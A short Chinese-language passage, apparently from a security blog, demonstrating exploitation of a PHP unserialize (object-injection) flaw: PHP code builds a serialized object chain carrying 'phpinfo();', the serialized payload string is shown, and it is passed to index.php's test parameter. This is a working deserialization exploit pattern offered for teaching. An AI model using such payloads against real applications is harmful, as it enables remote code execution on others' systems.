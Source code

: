 下面是利用过程。构造序列化。

```
<?php
class chybeta {
    var $test;

    function __construct() {
        $this->test = new ph0en2x();
    }

}
class ph0en2x {
    var $test2 = "phpinfo();";

}
echo serialize(new chybeta());
?>
```

得到：

```
O:7:"chybeta":1:{s:4:"test";O:7:"ph0en2x":1:{s:5:"test2";s:10:"phpinfo();";}}
```

传给index.php的test参数，利用成功：

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170617/7.jpg?raw=true)

